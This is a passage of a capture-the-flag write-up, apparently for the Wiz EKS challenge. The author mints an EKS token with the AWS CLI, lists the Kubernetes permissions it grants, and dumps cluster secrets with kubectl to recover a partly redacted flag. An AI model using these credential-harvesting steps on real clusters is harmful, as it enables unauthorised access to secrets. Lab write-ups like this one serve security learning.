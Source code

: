 This gets us a token, so lets try to use it:

```bash
root@wiz-eks-challenge:~# export TOKEN=$(aws eks get-token --cluster-name eks-challenge-cluster|jq '.status.token' -r)
root@wiz-eks-challenge:~# kubectl --token "$TOKEN" auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs   Resource Names     Verbs
serviceaccounts/token                           []                  [debug-sa]         [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []                 [create]
pods                                            []                  []                 [get list]
secrets                                         []                  []                 [get list]
serviceaccounts                                 []                  []                 [get list]
                                                [/api/*]            []                 [get]
                                                [/api]              []                 [get]
                                                [/apis/*]           []                 [get]
                                                [/apis]             []                 [get]
                                                [/healthz]          []                 [get]
                                                [/healthz]          []                 [get]
                                                [/livez]            []                 [get]
                                                [/livez]            []                 [get]
                                                [/openapi/*]        []                 [get]
                                                [/openapi]          []                 [get]
                                                [/readyz]           []                 [get]
                                                [/readyz]           []                 [get]
                                                [/version/]         []                 [get]
                                                [/version/]         []                 [get]
                                                [/version]          []                 [get]
                                                [/version]          []                 [get]
podsecuritypolicies.policy                      []                  [eks.privileged]   [use]
```

Perfect!  We have more access which includes fetching secrets:

```bash
root@wiz-eks-challenge:~# kubectl --token "$TOKEN" get secret -o json
{
    "apiVersion": "v1",
    "items": [
        {
            "apiVersion": "v1",
            "data": {
                "flag": "d2l6X2Vrc19jaGFsbGVuZ2V7b25seV9hX3<*REDACTED*>="
            },
            "kind": "Secret",
            "metadata": {
                "creationTimestamp": "2023-11-01T12:27:57Z",
                "name": "node-flag",
                "namespace": "challenge4",
                "resourceVersion": "883574",
                "uid": "26461a29-ec72-40e1-adc7-99128ce664f7"
            },
            "type": "Opaque"
        }
    ],
    "kind": "List",
    "metadata": {
        "resourceVersion": ""
    }
}
```
